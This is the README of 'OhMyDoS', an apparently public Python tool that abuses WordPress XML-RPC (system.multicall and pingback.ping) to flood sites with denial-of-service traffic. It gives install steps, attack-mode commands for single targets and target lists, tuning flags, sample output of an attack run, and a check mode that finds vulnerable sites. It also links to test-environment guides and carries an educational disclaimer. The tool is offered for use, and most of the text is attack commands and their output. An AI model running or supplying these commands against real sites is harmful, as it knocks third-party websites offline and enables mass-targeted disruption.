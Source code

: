 <p align="center">
<img src="https://github.com/martinkubecka/OhMyDoS/blob/master/images/logo.png" alt="Logo">

# :no_entry: OhMyDoS


*OhMyDos* is a python console application abusing [Wordpress](https://wordpress.org/) API called [XML-RPC](https://codex.wordpress.org/XML-RPC_Support) and its functions `system.multicall` and `pingback.ping` with aim of Denial-of-Service. 

---
## :memo: Pre-requisites

- Python3.X ([download](https://www.python.org/downloads/release/python-3102/))
- library called `fake-useragent` ([project](https://pypi.org/project/fake-useragent/))
  - `$ pip install fake-useragent`

---
## :zap: Usage

*OhMyDos* provides 2 operation modes **check** and **attack** with ability to automate targeting of multiple Wordpress websites. 

### Attack Mode

#### Option Flags

Flags | Description
--|--
-e | Number of entries per one `system.multicall` (per one POST request)
-r | Number of POST request per target

#### Single Target

```
$ python3 OhMyDoS.py attack http://pingback.com http://example.com

    ▒█████   ██░ ██     ███▄ ▄███▓▓██   ██▓   ▓█████▄  ▒█████    ██████ 
    ▒██▒  ██▒▓██░ ██▒   ▓██▒▀█▀ ██▒ ▒██  ██▒   ▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
    ▒██░  ██▒▒██▀▀██░   ▓██    ▓██░  ▒██ ██░   ░██   █▌▒██░  ██▒░ ▓██▄   
    ▒██   ██░░▓█ ░██    ▒██    ▒██   ░ ▐██▓░   ░▓█▄   ▌▒██   ██░  ▒   ██▒
    ░ ████▓▒░░▓█▒░██▓   ▒██▒   ░██▒  ░ ██▒▓░   ░▒████▓ ░ ████▓▒░▒██████▒▒
    ░ ▒░▒░▒░  ▒ ░░▒░▒   ░ ▒░   ░  ░   ██▒▒▒     ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
    ░ ▒ ▒░  ▒ ░▒░ ░   ░  ░      ░ ▓██ ░▒░     ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
      ░ ░     ░  ░  ░   ░      ░    ▒ ▒         ░    ░   ░   ▒     ░  ░  
    
----------------------------------------------------------------------------
[>] Target : http://example.com
[>] Building 2000 pingback calls per one request
[>] Request size: 243.649 kB

[~] Starting attack, press CTRL+C to stop ...
[>] Requests sent : 159

[~] Attack interrupted by keypress
```

#### Multiple Targets

```
$ python3 OhMyDoS.py attack http://pingback.com targets.txt
```

### Check Mode

#### Single Target

```
$ python3 OhMyDoS.py check http://example.com

    ▒█████   ██░ ██     ███▄ ▄███▓▓██   ██▓   ▓█████▄  ▒█████    ██████ 
    ▒██▒  ██▒▓██░ ██▒   ▓██▒▀█▀ ██▒ ▒██  ██▒   ▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
    ▒██░  ██▒▒██▀▀██░   ▓██    ▓██░  ▒██ ██░   ░██   █▌▒██░  ██▒░ ▓██▄   
    ▒██   ██░░▓█ ░██    ▒██    ▒██   ░ ▐██▓░   ░▓█▄   ▌▒██   ██░  ▒   ██▒
    ░ ████▓▒░░▓█▒░██▓   ▒██▒   ░██▒  ░ ██▒▓░   ░▒████▓ ░ ████▓▒░▒██████▒▒
    ░ ▒░▒░▒░  ▒ ░░▒░▒   ░ ▒░   ░  ░   ██▒▒▒     ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
    ░ ▒ ▒░  ▒ ░▒░ ░   ░  ░      ░ ▓██ ░▒░     ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
      ░ ░     ░  ░  ░   ░      ░    ▒ ▒         ░    ░   ░   ▒     ░  ░  
    
----------------------------------------------------------------------------
[>] Checking if XML-RPC for http://example.com is enabled ...
[>] XML-RPC enabled.

```

#### Multiple Targets

```
$ python3 OhMyDoS.py check targets.txt
```

---
## :clipboard: To-Do List

  Task | Status
  --|--
  Reimplement random User Agent generation |  
  
  
---
## :postbox: Resources

- WordPress DoS: Rediscovering an Unpatched 0-Day ([blog post](https://labs.arcturus.net/post/WordPress-DoS.html))
    - PoC : https://github.com/roddux/wordpress-dos-poc (this project is build on the top of this PoC)
- Exploiting the xmlrpc.php on all WordPress versions ([blog post](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/))

---
## :triangular_ruler: Testing Environment Set Up

- How To Install WordPress with LAMP ([link](https://github.com/martinkubecka/OhMyDoS/blob/master/guides/Wordpress_LAMP.md))
- WordPress in a Docker container ([link](https://github.com/martinkubecka/OhMyDoS/blob/master/guides/Wordpress_Docker.md))

---
## :warning: Disclaimer
  
  > This tool was developed solely for educational purposes only and the author of this tool is no way responsible for any misuse.
